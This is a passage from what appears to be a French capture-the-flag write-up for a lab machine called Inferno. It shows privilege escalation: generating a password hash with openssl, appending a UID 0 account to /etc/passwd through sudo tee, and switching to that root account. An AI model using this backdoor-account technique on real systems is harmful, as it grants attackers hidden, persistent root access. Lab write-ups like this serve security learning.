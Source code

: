 Pour cela, il faut généré un hashe de mot de passe:
```
openssl passwd -1 -salt "theroot" "test" 
$1$theroot$Gk20pB8iVcF4tFVEsu1mu1
```
On va maintenant créer mon user en écrivant dans le fichier **/etc/passwd** grace a **tee**
```
echo 'theroot:$1$theroot$Gk20pB8iVcF4tFVEsu1mu1:0:0:root:/root:/bin/bash' | sudo tee -a /etc/passwd
```
puis on se log sur notre nouvelle session root:
```
dante@Inferno:~$ su - theroot
Password: 
root@Inferno:~#
```
Une fois root, plus de problème de stabilité !
